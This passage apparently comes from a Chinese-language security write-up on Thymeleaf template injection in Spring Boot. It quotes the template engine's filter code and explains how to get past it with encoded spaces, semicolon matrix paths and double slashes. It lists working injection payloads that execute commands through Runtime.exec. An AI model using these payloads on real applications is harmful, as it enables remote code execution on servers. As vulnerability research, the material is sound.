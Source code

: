 ```java
                        && ((n - 1 >= 0) && (expression.charAt(n - 1) == 'T'))
                        && ((n - 1 == 0) || !Character.isJavaIdentifierPart(expression.charAt(n - 2)))) {
                return true;
            } else if (si > n && !(Character.isJavaIdentifierPart(c) || c == '.')) {
                si = -1;
            }
        }
        return false;

    }
```

因此这个过滤，我们不难

1、表达式中不能含有关键字`new`
2、在`(`的左边的字符不能是`T`
3、不能在`T`和`(`中间添加的字符使得原表达式出现问题

所以`Character.isJavaIdentifierPart`变成了一个突破口,%20,\n等等都可以绕过。

```
__${T%20(java.lang.Runtime).getRuntime().exec("calc")}__::.x
;/__${T%20(java.lang.runtime).getruntime().exec("calc")}__::.x
/__${T%20(java.lang.runtime).getruntime().exec("calc")}__::.x
```

在利用的时候，又又又发现了问题。

```java
 @GetMapping("/home/{page}")
    public String getHome(@PathVariable String page) {
        log.info("Pages: " + page);
        return "home/" + page;
    }
```

如果返回的视图名字和path相同的话，(3.0.12版本)上面的payload是不会被触发的。因为还增加了一个函数`SpringRequestUtils`.

bypass的话

- springboot的矩阵向量(如果发现路径中存在分号，那么会调用`removeSemicolonContent`方法来移除分号)

  ```
  home;/__${t(java.lang.runtime).getruntime().exec("open-acalculator")}__::.x
  ```

- "//"在路径处理时

  ```
  home//__${t(java.lang.runtime).getruntime().exec("open-acalculator")}__::.x
  ```

## 0x04 无return如何SSTI

根据spring boot定义，如果controller无返回值，则以GetMapping的路由为视图名称。当然，对于每个http请求来讲，其实就是将请求的url作为视图名称，调用模板引擎去解析。https://docs.spring.io/spring/docs/current/spring-framework-reference/web.html#mvc-ann-return-types
